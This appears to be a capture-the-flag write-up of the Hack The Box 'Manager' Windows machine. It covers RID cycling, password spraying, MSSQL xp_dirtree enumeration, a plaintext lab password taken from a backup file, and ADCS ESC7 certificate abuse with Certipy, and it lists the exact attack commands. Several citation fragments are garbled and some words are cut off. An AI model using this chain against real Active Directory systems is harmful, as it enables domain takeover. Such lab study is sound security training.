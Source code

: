 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used**:
    
    - RID Cycling (user SID enumeration)
    - Password spray (username == password)
    - MSSQL `xp_dirtree` file enumeration
    - Plaintext credentials in config file
    - ADCS ESC7 misconfiguration (cert issuance for privilege escalation)
        

**Open Ports:**

- 53 – DNS
- 80 – HTTP
    
- 88 – Kerberos
    
- 135 – MS RPC
    
- 139 – NetBIOS-SSN
    
- 389 – LDAP
    
- 445 – SMB
    
- 464 – kpasswd5 (Kerberos Password)
    
- 593 – RPC HTTP
    
- 636 – LDAPS
    
- 1433 – MSSQL
    
- 3268/3269 – Global Catalog
    
- 5985 – WinRM
    
- 9389 – ADWS
    

---

### 🧠 TL;DR

This Windows Active Directory machine required chaining multiple weaknesses to get Administrator. In summary:

- **User Enumeration:** Performed a RID cycling attack (null session SID enumeration) to list domain users, which revealed several valid usernames like `raven` and `operator ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=1113%3A%20MANAGER,Operator%20%28SidTypeUser))】.
    
- **Initial Credential:** Used a password spraying strategy testing username-as-password for each account. Discovered that the `operator` account had the password **operator** (i.e. `operator:operator` was valid ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=manager.htb))】.
    
- **MSSQL Access:** With the `operator` credentials (a low-priv domain user), gained access to the MSSQL service on the server using Windows authentication. Since commands like `xp_cmdshell` were disabled, leveraged the `xp_dirtree` procedure to enumerate the file system. This revealed a website backup ZIP file in the webroo ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html))】.
    
- **Sensitive Data Exposure:** Downloaded the backup archive from the web server and extracted it. Inside was an old configuration XML file containing an LDAP bind account for user **Raven**, along with her plaintext password (`R4v3nBe5tD3veloP3r!123` ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=%3Caccess,list))】. This provided credentials for the domain user **raven**.
    
- **Privilege Escalation to User:** Logged into the target as Raven (e.g. via WinRM) and confirmed this account’s access. Found that Raven had elevated privileges in Active Directory Certificate Services (ADCS) – specifically, she possessed the **Manage CA** permission on the enterprise CA (an ESC7 misconfiguration ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html#:~:text=ESC7%20is%20when%20a%20user,shown%20in%20the%20output%20above))】. This meant Raven could manage certificate issuance on the CA.
    
- **Privilege Escalation to Administrator:** Abused the ADCS **ESC7** misconfiguration to issue a certificate for the Domain Administrator. In practice, Raven’s ManageCA rights were used to give herself certificate manager privileges and then request a SubCA certificate as Administrator (which is initially pending) and manually approve it. This yielded a valid cert for Administrator’s identit ([HackTricks/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md#:~:text=The%20technique%20relies%20on%20the,issued%20by%20the%20manager%20afterwards))】. Using that certificate, obtained Administrator credentials (NTLM hash) and logged in as **Administrator**, owning the box.
    

---

### 🔧 Tools

- `nmap`, `ffuf`, `feroxbuster`, `lookupsid.py`, `netexec`, `ldapsearch`, `ldapdomaindump`
    
- `mssqlclient.py`, `wget`, `evil-winrm`, `Certipy`
    

---

### 🚀 Commands

- `nmap -p- --min-rate 10000 -oA full 10.10.11.236` – Full port scan
    
- `netexec smb manager.htb -u guest -p '' --rid-brute` – RID cycle via SMB (null session)
    
- `netexec smb manager.htb -u users -p users --continue-on-success --no-brute` – Password spray (username=password for each user in list)
    
- `mssqlclient.py -windows-auth manager.htb/Operator:operator@manager.htb` – Connect to MSSQL with Operator’s domain creds
    
- Use `xp_dirtree` (in SQL prompt) to explore `C:\inetpub\wwwroot` and find the backup ZIP
    
- `wget http://manager.htb/website-backup-27-07-23-old.zip` – Download the discovered website backup
    
- `unzip website-backup-27-07-23-old.zip` – Extract contents (find `.old-conf.xml`)
    
- `evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'` – WinRM as Raven (password from config)
    
- `certipy ca -add-officer raven ...` – Use Raven’s ManageCA to give herself ManageCertificates (Certificate Manager) rights
    
- `certipy req -template SubCA -upn administrator@manager.htb ...` – Request a cert for Administrator (will be pending)
    
- `certipy ca -issue-request <ID> ...` – Manually issue the pending Administrator cert
    
- `certipy req -retrieve <ID> ...` – Retrieve the issued cert (PFX for Administrator)
    
- `certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236` – Authenticate as Administrator via certificate (get NTLM hash)
    
- `evil-winrm -i manager.htb -u administrator -H <hash>` – WinRM as Administrator with the obtained hash 🎉
    

---

### 📚 Lessons Learned

- **RID cycling** is still 🔥 for enumerating users when anonymous SMB access is a ([TrustedSec | New Tool Release - RPC_ENUM - RID Cycling Attack](https://trustedsec.com/blog/new-tool-release-rpc_enum-rid-cycling-attack#:~:text=a%20RID%20cycling%20attack%20that,uses%20all%20standard%20python%20libraries))7-L10】. Even in modern AD setups, this can quickly expose valid usernames.
    
- A simple **password spray** (especially testing for default or username-as-password) can yield creds. Users like “operator” often have trivial passwords in lab environments.
    
- **MSSQL xp_dirtree** can leak interesting file paths and contents even if `xp_cmdshell` is di ([HTB: Manager | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/03/16/htb-manager.html))-L807】. It’s a handy trick for horizontal information disclosure on Windows SQL servers.
    
- Always check for **sensitive config files** in backups. Hardcoded credentials (like Raven’s LDAP password) are a gold mine for pivoting to higher privileges.
    
- Misconfigured **AD Certificate Services** (ESC7 in this case) is a serious escalation vector. A user with ManageCA privileges can effectively become a CA admin and issue certificates to impersonate higher privileged ac ([HackTricks/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md#:~:text=The%20technique%20relies%20on%20the,issued%20by%20the%20manager%20afterwards))-L627】. This demonstrates how dangerous ADCS misconfigurations can be in an Active Directory environment.
    
- Tools like **Certipy** greatly simplify ADCS abuse, turning complex certificate attacks into a few straightforward commands.
    

---

### 📖 References

- [0xdf: HTB Manager – Walkthrough](https://0xdf.gitlab.io/2024/03/16/htb-manager.html)
    
- [HackTricks – Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [ADCS ESC7 (Certificate Authority ACL) – Certified Pr ([HackTricks/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md#:~:text=The%20technique%20relies%20on%20the,issued%20by%20the%20manager%20afterwards))9-L627】]([https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2))
    
- [Certipy – AD CS Exploitation Tool (GitHub)](https://github.com/ly4k/Certipy)
